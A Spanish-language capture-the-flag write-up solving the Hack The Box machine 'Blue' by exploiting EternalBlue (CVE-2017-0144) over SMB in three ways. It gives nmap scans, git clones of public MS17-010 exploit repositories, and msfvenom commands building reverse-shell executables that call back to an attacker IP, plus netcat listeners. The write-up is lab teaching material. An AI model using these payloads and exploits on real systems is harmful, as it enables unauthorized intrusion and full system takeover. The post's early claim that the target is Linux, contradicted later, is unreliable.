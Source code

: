 ```yaml
---
title: 'Blue'
date: 2024-03-09T16:15:00-03:00
permalink: /posts/htb/:title/
categories: ["Writeups", "HTB"]
tags: ['Linux', 'CTF', 'EternalBlue', 'CVE-2017-0144']
image:
  path: /assets/img/htb/blue/blue.png
---
```


En este post, abordaremos la resolución de la máquina [Blue](https://app.hackthebox.com/machines/Blue) de la plataforma Hack The Box. Esta máquina exhibe una vulnerabilidad ampliamente reconocida, la cual exploraremos explotando de tres formas distintas manualmente. La vulnerabilidad a la que me refiero es comúnmente conocida como **EternalBlue**, identificada con el **CVE-2017-0144**.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![blue](/assets/img/htb/blue/blue-1.png)
_Reconocimento usando el comando ping_

Podemos observar, que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 10.10.10.40 -oG scanPorts -vvv
```

![blue](/assets/img/htb/blue/blue-2.png)
_Descubrimiento de puertos abiertos_

> ver la [Cheatsheet](/posts/cheatsheet/#22-nmap) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p135,139,445,49152,49153,49154,49155,49156,49157 10.10.10.40 -oN targeted -vvv
```

![blue](/assets/img/htb/blue/blue-3.png)
_Descubrimiento de versión y servicio con nmap_

> ver la [Cheatsheet](/posts/cheatsheet/#22-nmap) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

Como evidenciamos en el escaneo, nos encontramos frente a una máquina Windows 7 de 64 bits que expone el puerto 445 (SMB). Realizando una búsqueda rápida en Google, confirmamos que esta versión específica está incluida entre las versiones afectadas por la vulnerabilidad conocida como `EternalBlue`.

## Explotación - Forma 1

Para llevar a cabo la explotación de esta vulnerabilidad, estaremos usando en primera instancia el exploit [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010).

Primero, debemos descargar el repositorio.

```bash
git clone --recursive https://github.com/3ndG4me/AutoBlue-MS17-010.git
```

Luego, tenemos que preparar nuestro shellcode. Para lo cual, debemos ejecutar el script `shell_prep.sh`.

![blue](/assets/img/htb/blue/blue-4.png)
_Preparación del shellcode_

![blue](/assets/img/htb/blue/blue-5.png)
_Preparación del shellcode_

A continuación, debemos establecer un listener utilizando netcat `nc`.

![blue](/assets/img/htb/blue/blue-6.png)
_Establecemos un listener con netcat_

Por ultimo, ejecutamos el exploit.

![blue](/assets/img/htb/blue/blue-7.png)
_Ejecución del exploit_

De esta forma, ganamos acceso a la máquina víctima como el usuario `NT AUTHORITY\SYSTEM`.

![blue](/assets/img/htb/blue/blue-8.png)
_Ganamos acceso al sistema_

## Explotación - Forma 2

Para realizar esta explotación, utilizaremos un exploit disponible en `Exploit-DB`.

![blue](/assets/img/htb/blue/blue-9.png)
_Exploit-DB MS17-010_

Antes de llevar a cabo la ejecución, debemos realizar algunas modificaciones en el script.

En primer lugar, tendremos que asignar a la variable `USERNAME` el valor de `guest`.

![blue](/assets/img/htb/blue/blue-10.png)
_Asignamos a la variable USERNAME el valor de guest_

Posteriormente, es necesario especificar la ubicación de nuestro payload y asegurarnos de que se ejecute automáticamente una vez que se cargue en la máquina víctima.

![blue](/assets/img/htb/blue/blue-11.png)
_Modifiación del script_

Después, procedemos a generar nuestro payload utilizando la herramienta `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=5555 -f exe > eternal-blue.exe
```

![blue](/assets/img/htb/blue/blue-12.png)
_Creación del payload usando msfvenom_

Establecemos un listener con netcat.

```bash
rlwrap nc -lnvp 5555
```

Ejecutamos el exploit

![blue](/assets/img/htb/blue/blue-13.png)
_Establecemos un listener con netcat_

Y ganamos acceso al sistema.

![blue](/assets/img/htb/blue/blue-14.png)
_Ganamos acceso al sistema_

## Explotación - Forma 3

Por ultimo, para nuestra forma de explotación número 3 utilizaremos el siguiente repositorio: [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)

Primero, procedemos a descargar el repositorio.

```bash
git clone --recursive https://github.com/helviojunior/MS17-010.git
```

Luego, al igual que el exploit anterior, debemos generar nuestro payload. Para lo cual, utilizaremos nuevamente `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=6666 -f exe > evil-shell.exe
```

![blue](/assets/img/htb/blue/blue-15.png)
_Creación del payload usando msfvenom_

Por otra parte, debemos asignar a la variable `USERNAME` el valor de `guest`.

![blue](/assets/img/htb/blue/blue-16.png)
_Asignamos a la variable USERNAME el valor de guest_

Establecemos un listener con netcat.

```bash
rlwrap nc -lnvp 6666
```

Ejecutamos el exploit

![blue](/assets/img/htb/blue/blue-17.png)
_Establecemos un listener con netcat_

Y de esta forma, volvemos a ganar acceso al sistema.

![blue](/assets/img/htb/blue/blue-14.png)
_Ganamos acceso al sistema_

Por ultimo, para completar la máquina solo resta leer los flags de `user.txt` y `root.txt`.

![blue](/assets/img/htb/blue/user.png)
_user.txt_

![blue](/assets/img/htb/blue/root.png)
_root.txt_

Con esto, concluimos la resolución de la máquina Blue.

Confío en que los conceptos hayan quedado claros. Si aún persisten dudas después de llegar a este punto, te sugiero considerar la posibilidad de revisitar la máquina para reforzar tu comprensión.

Gracias por tu lectura!

Happy Hacking!
